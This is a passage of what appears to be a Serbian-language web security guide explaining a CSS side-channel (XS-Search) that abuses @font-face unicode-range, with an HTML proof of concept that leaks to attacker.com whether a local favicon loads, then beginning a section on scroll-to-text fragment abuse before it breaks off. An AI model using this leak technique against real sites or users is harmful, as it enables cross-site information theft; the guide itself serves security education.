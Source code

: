 **Reference:** [CSS bazirani napad: Zloupotreba unicode-range of @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [XS-Search PoC zasnovan na greškama od strane @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

Opšti cilj je **koristiti prilagođeni font sa kontrolisane tačke** i osigurati da se **tekst (u ovom slučaju, 'A') prikaže samo ovim fontom ako određeni resurs (`favicon.ico`) ne može da se učita**.

```html
<!DOCTYPE html>
<html>
<head>
<style>
@font-face{
font-family: poc;
src: url(http://attacker.com/?leak);
unicode-range:U+0041;
}

#poc0{
font-family: 'poc';
}

</style>
</head>
<body>

<object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
</body>
</html>
```

1. **Korišćenje prilagođenog fonta**:
   * Prilagođeni font se definiše korišćenjem pravila `@font-face` unutar `<style>` oznake u delu `<head>`.
   * Font je nazvan `poc` i preuzima se sa spoljnog endpointa (`http://attacker.com/?leak`).
   * Svojstvo `unicode-range` je postavljeno na `U+0041`, ciljajući specifičan Unicode karakter 'A'.
2. **Element objekta sa rezervnim tekstom**:
   * Element `<object>` sa `id="poc0"` je kreiran u delu `<body>`. Ovaj element pokušava da učita resurs sa adrese `http://192.168.0.1/favicon.ico`.
   * `font-family` za ovaj element je postavljen na `'poc'`, kako je definisano u delu `<style>`.
   * Ako resurs (`favicon.ico`) ne uspe da se učita, rezervisani sadržaj (slovo 'A') unutar `<object>` oznake će biti prikazan.
   * Rezervisani sadržaj ('A') će biti prikazan korišćenjem prilagođenog fonta `poc` ako spoljni resurs ne može da se učita.

### Stilizovanje fragmenta teksta za skrolovanje

**`:target`** pseudo-klasa se koristi za odabir elementa ciljanog putem **URL fragmenta**, kako je navedeno u [specifikaciji CSS selektora nivoa 4](https://drafts.csswg.org/selectors-4/#the-target-pseudo). Važno je razumeti da `::target-text` ne odgovara nijednom elementu osim ako tekst nije eksplicitno ciljan fragmentom.

Bezbednosna zabrinutost se javlja kada napadači iskorišćavaju mogućnost **Skrolovanja do teksta** fragmenta, omogućavajući im da potvrde prisustvo određenog teksta na veb stranici učitavanjem resursa sa svojeg servera putem HTML ubacivanja. Metoda uključuje ubacivanje CSS pravila poput:
